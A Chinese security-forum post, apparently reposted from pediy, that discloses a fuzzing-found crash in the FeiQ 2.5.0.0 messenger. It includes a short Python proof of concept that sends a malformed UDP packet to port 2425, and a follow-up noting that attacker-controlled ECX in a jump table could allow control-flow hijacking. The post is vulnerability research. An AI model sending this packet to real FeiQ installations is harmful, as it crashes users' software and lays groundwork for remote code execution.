




# 再发个飞秋 Bug

> 原文：[`www.pediy.com/kssd/pediy12/143947.html`](https://www.pediy.com/kssd/pediy12/143947.html)

上次发了[那个 0day](http://bbs.pediy.com/showthread.php?t=143197)以后就休息了一段时间，但是最近感觉到自己对 UDP2425 的 recvfrom 的挖掘工作还没有弄完，因为在 sub\_49C940 函数中有污染数据外流，而外流是通过第二个参数：  
  
但是通过分析发现外流的数据比较分散，进行静态反汇编挖掘可能比较麻烦。  
  
而且自己的 fuzz 一直都是存在于理论阶段，所以使用 fuzz 对其进行分析，最后发现发送下面的 POC 时程序崩溃掉了：  
1\_lbt4\_35#128#6CF04987CC1A#1528#22603#0#2.5a:1323191146:admin:XXCCLI-A10D5C26:0198  
  
Python 程序代码：  

代码:

```
import socket

server = "127.0.0.1"
port = 2425
sendStr = "1\_lbt4\_35#128#6CF04987CC1A#1528#22603#0#2.5a:1323191146:admin:XXCCLI-A10D5C26:0198"
s = socket.socket(socket.AF\_INET,socket.SOCK\_DGRAM)
s.sendto(sendStr,(server,port))
s.close()

```

看来我的 fuzz 技术还可以  
  
是否可以利用我没有去分析，这个就给大家研究吧！  
  
附上崩溃是的图：  
  
  
测试环境：XP SP3，飞秋版本 2.5.0.0  
附上飞秋程序：

上传的附件
|  || FeiQ.rar  
 |

引用: *最初由 **weizi**发布*  好像不能利用啊。  
另外，这条信息是什么意思呢？ 

我初步看来一下，是可以利用的，只是有点麻烦。  
上次没有说明什么时候出现崩溃，那是当我 fuzz 到后面的数据位:0198 时就崩溃，正常是:0 的没有 198，我通过查看崩溃的原因，结果发现是可以利用的：  
  
这是进行数据转换，并保存，下图 0053CA89 mov     esi, \[ebp+0A4h\]开始读取。  
  
可以发现我们能过控制 jmp     ds:off\_53D2D8\[ecx\*4\]中得 ECX，所以我们能够控制的范围为：  
0x53D2D8-->53D2D8+0xff+4  
只要在里面找到能过一些有效的指令，我想应该是可以控制跳到我的的数据的。  
  
分析不对的地方，请个位指教，谢谢!